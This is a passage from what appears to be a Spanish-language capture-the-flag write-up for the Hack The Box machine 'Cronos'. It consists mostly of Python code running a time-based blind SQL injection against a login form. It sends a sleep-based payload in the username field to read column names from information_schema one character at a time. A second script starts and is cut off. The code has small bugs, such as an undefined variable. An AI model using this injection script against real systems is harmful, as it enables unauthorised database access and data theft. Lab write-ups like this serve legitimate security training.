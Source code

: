 ```python
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Columns")

    column_name = ""

    for column in range(0,4):
        for position in range(1, 10):
            for character in s:
                p1.status("Probando con el caracter %c en la posicion %d de la columna numero %d de la tabla users " % (character, position, column))
                post_data = {
                    'username': "admin' and if(substr((select column_name from information_schema.columns where table_schema='admin' and table_name='users' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (column, position, character),
                    'password': 'admin'
                }

                time_start = time.time()
                r = requests.post(login_url, data=post_data)
                time_end = time.time()

                if time_end - time_start > 5:
                    column_name += character
                    p2.status(column_name)
                    break
            break
        table_name += " - "

if __name__ == '__main__':

    makeRequest()
```

Ahora conocemos las columnas, vamos a por las data.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():
```